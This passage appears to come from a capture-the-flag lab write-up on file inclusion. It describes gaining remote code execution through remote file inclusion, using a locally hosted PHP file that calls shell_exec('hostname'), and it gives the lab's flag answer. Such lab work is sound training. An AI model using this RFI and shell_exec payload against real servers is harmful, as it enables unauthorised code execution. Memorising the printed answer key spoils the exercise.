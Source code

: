 ### Gain RCE in Lab #Playground /playground.php with RFI to execute the hostname command. What is the output?

For this last challenge, I do the same as TASK 6 :
1- snippet python for local webserver

2- hello.php code :

```php
<?php echo shell_exec('hostname'); ?>
```

Then you just need to call your file hello.php from RFI execution :

![Playground](/images/thm/fileinc/fileinc_12.png)
_Playground_

Answer : lfi-vm-thm-f8c5b1a78692